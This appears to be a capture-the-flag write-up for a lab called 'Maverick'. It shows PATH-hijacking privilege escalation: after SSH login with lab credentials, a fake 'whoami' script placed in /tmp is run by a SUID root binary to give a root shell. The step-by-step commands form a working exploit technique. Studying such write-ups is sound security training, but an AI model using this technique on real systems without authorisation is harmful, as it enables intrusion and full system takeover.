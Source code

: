 # Name: Web: Privilege Escalation: Maverick

## Vulnerability

PATH Variable privilege escalation.

PATH is an environmental variable in Linux operating systems which specifies directories that hold all executable programs are stored.

The logged user can execute binaries/scripts from the current directory and it can be an excellent technique for an attacker to escalate root privilege: due to lack of attention while writing program, the writer **does not specify the full path to the program**.

```echo $PATH```

## Exploit

Connect with ssh to user ```maverick:jXztBtEWKYRMrjAF```, port 2022.

```ssh maverick@<IP> -p 2022```

Inside the ```/home/maverick/scripts``` directory, we will see a binary called ```favorite-quote```, having the SUID  permissions:

```ls -la favorite-quote```

```-rwsr-xr-x 1 root     root      17K Jul 26 12:56 favorite-quote```

If we move inside that directory and run the ```strings favorite-quote``` command, we can see that somehow a ```whoami``` command is executed. Maybe the developer forgot to specify the full path of the binary.

We will try to recreate a new binary file called ```whoami``` which contains ```/bin/bash```.

```bash
cd /tmp
echo "/bin/bash" > whoami
chmod 777 whoami
echo $PATH
export PATH=/tmp:$PATH
cd /home/maverick/scripts
./favorite-quote
whoami
```

And now you are root!
